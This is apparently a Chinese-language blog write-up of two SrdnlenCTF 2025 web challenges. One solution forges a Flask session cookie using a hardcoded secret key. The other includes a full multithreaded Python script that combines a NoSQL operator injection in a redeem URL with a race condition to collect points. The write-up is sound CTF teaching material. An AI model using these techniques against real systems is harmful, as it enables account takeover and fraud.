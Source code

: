 # SrdnlenCTF 2025


# srdnlen

## web

### Ben 10

题目描述说 Ben 10 有好东西，但是注册账号后发现不让访问

附件中的 app.py 给出了 app.secret_key = &#39;your_secret_key&#39;

把 jwt 用 flask-session-cookie-manager 解密，发现只有 username

![m63nh67z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfd4f54791.png)

从 app.py 中可以看到注册用户时也一起注册了一个对应的 admin 用户

```py
@app.route(&#39;/register&#39;, methods=[&#39;GET&#39;, &#39;POST&#39;])
def register():
    admin_username = f&#34;admin^{username}^{secrets.token_hex(5)}&#34;
    cursor.execute(&#34;INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)&#34;,
                           (admin_username, admin_password, None))
    conn.commit()
```

而 admin_username 在 /home 中显示

![m63nkpbe.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfdf3f35a2.png)

所以进行 session 伪造

![m63nntuw.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfe85f3d47.png)

GET /image/ben10 ，拿到 flag

![m63nsvou.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cff71b7ebf.png)

&gt; srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}

### Focus. Speed. I am speed.

群里师傅说打 nosql &#43; 竞争，那我就照着打了qwq

![m63oa7cc.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0299e048f.png)

应该要买第4个，50 points

![m63ocvz8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0317070ee.png)

网页都访问一遍，发现在 GET /redeem?discountCode=xxx 有查询

翻一下代码，顺着找到：

routes.js

```javascript
const discount = await DiscountCodes.findOne({discountCode})
```

discountCodes.js

```javascript
const DiscountCodeSchema = new mongoose.Schema({
    discountCode: {
        type: String,
        default: null, // Optional field for discount codes
    },
    value: {
        type: Number,
        default: 10
    }
})

module.exports = mongoose.model(&#39;DiscountCodes&#39;, DiscountCodeSchema)
```

注一下试试看，确实可以

![m63pxcd8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0d6126433.png)

但是礼品卡说是一天只能兑换一次，找代码

routes.js

```javascript
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &amp;&amp;
                              lastRedemption.getMonth() === today.getMonth() &amp;&amp;
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: &#39;You have already redeemed your gift card today!&#39; });
            }
        }

        // Apply the gift card value to the user&#39;s balance
        const { Balance } = await User.findById(req.user.userId).select(&#39;Balance&#39;);
        user.Balance = Balance &#43; discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve =&gt; setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
```

在保存之前，setTimeout(delay * 1000 ms)，所以我们通过并发请求访问 balance 来制造竞争条件

一直 buy 第一辆🚗，然后重复兑换礼品卡

```py
import time
import requests
import threading
import json

url = &#34;http://speed.challs.srdnlen.it:8082&#34;

# 账号注册
url_register = f&#34;{url}/register-user&#34;
data_user = {&#34;username&#34;: &#34;mingzuxxxxxxxxxxxxxxx&#34;, &#34;password&#34;: &#34;123&#34;}
try:
    response = requests.post(url_register, json=data_user)
    jwt = response.headers[&#34;Set-Cookie&#34;].split(&#34;;&#34;)[0].split(&#34;=&#34;)[1]
    print(jwt)
except Exception as e:
    print(e)

# 竞争
url_store = f&#34;{url}/store&#34;
headers = {&#39;Cookie&#39;: f&#39;jwt={jwt}&#39;,}
data_buy = {&#34;productId&#34;: 1}

def send_request():
    try:
        response = requests.post(url_store, headers=headers, json=data_buy)
        # print(f&#34;Status Code: {response.status_code}, Response Text: {response.text}&#34;)
    except Exception as e:
        print(f&#34;Request failed: {e}&#34;)

def send_requests():
    while True:
        send_request()

def race(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=send_requests)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# 偷点数
url_redeem = f&#34;{url}/redeem?discountCode[$ne]=1&#34;

def steal_points():
    while True:
        try:
            response = requests.get(url_redeem, headers=headers)
            # print(f&#34;Status Code: {response.status_code}, Response Text: {response.text}&#34;)
            if json.loads(response.text)[&#34;success&#34;]:
                print(f&#34;Steal Points Successfully: {json.loads(response.text)[&#34;message&#34;]}&#34;)
        except Exception as e:
            print(f&#34;Request failed: {e}&#34;)

def steal_points_rapidly(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=steal_points)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# steal_points()

# 执行
def execute():
    thread_race = threading.Thread(target=race, args=(100,))
    thread_steal = threading.Thread(target=steal_points_rapidly, args=(100,))

    thread_race.start()
    time.sleep(1)
    thread_steal.start()

execute()
```

![m63t610z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22a51cff7.png)

拿到 60 points ，买到辣

![m63t79zl.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22df872ca.png)

&gt; srdnlen{6peed_1s_My_0nly_Competition}


---

> 作者: [M1ng2u](https://m1ng2u.github.io/)  
> URL: https://m1ng2u.github.io/cybersec/4f8b201/  

